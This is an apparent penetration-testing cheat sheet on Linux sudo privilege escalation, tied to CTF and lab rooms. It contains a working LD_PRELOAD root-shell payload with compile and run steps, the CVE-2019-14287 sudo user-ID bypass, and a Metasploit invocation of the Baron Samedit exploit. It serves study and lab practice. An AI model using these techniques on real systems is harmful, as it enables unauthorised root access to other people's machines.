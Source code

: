 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (2.0k ⭐). List sudoers with `getent group sudo`.*

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![sudo_weak_configuration](../../../../_badges/rootme/app_script/sudo_weak_configuration.svg)](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)
[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![shocker](../../../../_badges/htb-p/shocker.svg)](https://app.hackthebox.com/machines/Shocker)
[![blocky](../../../../_badges/htb-p/blocky.svg)](https://app.hackthebox.com/machines/Blocky)
[![mirai](../../../../_badges/htb-p/mirai.svg)](https://app.hackthebox.com/machines/Mirai)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ld_preload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](../tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div><div>

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.

🍀 Sometimes, patterns are used in commands/paths. In a path, it means we can use `../`. In a command, we can use any option.

```text!
User [...] may run the following commands on [...]:
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/*.sh
    (root) /usr/bin/ssh *
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

☠️ If you can only execute the script and not read it, either try to see if the script use an [injectable](../utils/injection.md) parameter or try to find if the source code is available somewhere else <small>(ex: on Git)</small>.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
//#include <stdio.h>
//#include <sys/types.h>
//#include <stdlib.h>
void _init() {
    //unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```shell!
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!

⚠️ Actually, it may work if there is `env_reset` too?
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.

```shell!
msf6> use exploit/linux/local/sudo_baron_samedit
msf6> set SESSION 1
msf6> set LHOST tun0
msf6> run
```
</div></div>